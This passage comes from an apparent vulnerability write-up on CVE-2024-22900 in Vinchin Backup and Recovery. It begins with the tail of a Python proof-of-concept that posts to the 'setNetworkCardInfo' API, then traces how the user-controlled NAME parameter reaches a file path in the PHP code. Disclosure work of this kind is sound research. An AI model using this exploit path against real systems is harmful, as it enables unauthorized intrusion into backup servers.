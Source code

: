 ```python
    'f': 'setNetworkCardInfo',
    'p': json.dumps(payload)
}

print(data)

response = requests.post(
    "https://192.168.1.23/api/",
    cookies=cookies,
    headers=headers,
    data=data,
    verify=False,
)                     
print(response.text)
```

### Deep Dive into the `setNetworkCardInfo` Function Vulnerability in Vinchin Backup and Recovery (CVE-2024-22900)

![](/vinchin-backup-rce-chain-2024/setNetworkCardInfo.png)

#### Vulnerability Overview:

The `setNetworkCardInfo` function in Vinchin Backup and Recovery's software has a significant security vulnerability. This function is designed to update network card information.

#### Function Analysis:

**Function Prototype**:
```php
public function setNetworkCardInfo($params)
```

1. **Parameter Collection**:
   The function retrieves the `NAME` parameter from the request and stores it in `$name`:
   ```php
   $name = $params['NAME'];
   ```

2. **Device Name Assignment**:
   The `NAME` parameter is assigned to the `DEVICE` key in `$params`. This means the network device's name is controlled by the user-supplied `NAME` value:
   ```php
   $params['DEVICE'] = $name;
   ```

3. **Constructing Network Card Path**:
   The function constructs a file path that includes the device name provided in `NAME`:
   ```php
   $networkCardPath = Xphp::$_config['NETWORKCARD']['path'] . Xphp::$_config['NETWORKCARD']['prefix'] . $name;
   ```
   It uses the `Xphp::$_config['NETWORKCARD']` configuration to form this path.
